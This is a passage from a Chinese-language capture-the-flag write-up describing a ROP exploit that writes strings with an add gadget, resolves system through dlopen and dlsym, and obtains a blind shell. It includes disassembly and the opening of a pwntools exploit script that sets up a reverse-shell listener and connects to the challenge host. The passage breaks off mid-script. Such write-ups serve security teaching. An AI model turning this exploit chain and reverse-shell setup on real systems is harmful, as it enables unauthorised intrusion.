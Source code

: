 然后就是 ROP，进入到 Launcher 时关掉了 stdout，所以就只能瞎打，所有的 gadgets
都要在 rroopp 里面找，发现存在 dlopen 和 dlsym，所以接下来的任务就是凑一个代码
执行了

首先用 add dword ptr [rax + 0x5b], ebx 把字符串放到全局数据区，然后依次调用
dlopen('libc.so.6', 2) 和 dlsym(libc_handle, 'system') 来获取 system
函数，同时注意到 main 函数中的 dlsym 执行完成之后直接调用了解析出来的函数
```
.text:0000000000400679                 mov     rdi, rax        ; handle
.text:000000000040067C                 call    _dlsym
.text:0000000000400681                 test    rax, rax
.text:0000000000400684                 jz      short loc_4006A9
.text:0000000000400686                 mov     edi, ebx
.text:0000000000400688                 pop     rbx
.text:0000000000400689                 mov     rsi, r12
.text:000000000040068C                 pop     r12
.text:000000000040068E                 pop     rbp
.text:000000000040068F                 jmp     rax
```

可以通过 r12 和 ebx 控制头两个参数，直接就调用 system('/bin/sh')，这样可以得到
一个没有回显的 shell，队友发现有 python，就直接反向连回来打印 flag 就行了

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
""" Himyth / AAA """
from pwn import *
import sys, os, re
context(arch='amd64', os='linux', log_level='info')
context(terminal=['gnome-terminal', '--', 'zsh', '-c'])

raddr, rport = '172.93.40.149', 5555
r = listen(bindaddr=raddr, port=rport)
p = remote('47.100.64.171', 20000)
p.sendlineafter('token\n', '79DC7rePzwA6MEC1dwoloOYpbP10IMzG')

gadgets = """
0x0000000000400758: pop rax; pop rbx; pop rbp; ret;
0x0000000000400757: add dword ptr [rax + 0x5b], ebx; pop rbp; ret;

0x00000000004007fb: mov esi, dword ptr [rsp + 0x28]; mov r15, qword ptr [rsp + 0x30];
                    add rsp, 0x38; ret;
0x00000000004007f0: mov r12, qword ptr [rsp + 0x18]; mov r13, qword ptr [rsp + 0x20];
                    mov r14, qword ptr [rsp + 0x28]; mov r15, qword ptr [rsp + 0x30];
                    add rsp, 0x38; ret;
0x0000000000400800: mov edi, dword ptr [rsp + 0x30]; add rsp, 0x38; ret;
0x0000000000400759: pop rbx; pop rbp; ret;

.text:0000000000400679                 mov     rdi, rax        ; handle
.text:000000000040067C                 call    _dlsym
.text:0000000000400681                 test    rax, rax
.text:0000000000400684                 jz      short loc_4006A9
.text:0000000000400686                 mov     edi, ebx
.text:0000000000400688                 pop     rbx
.text:0000000000400689                 mov     rsi, r12
.text:000000000040068C                 pop     r12
.text:000000000040068E                 pop     rbp
.text:000000000040068F                 jmp     rax
"""

pop_rax_rbx_rbp = 0x400758
add_dword_rax   = 0x400757

pop_esi = 0x4007fb
```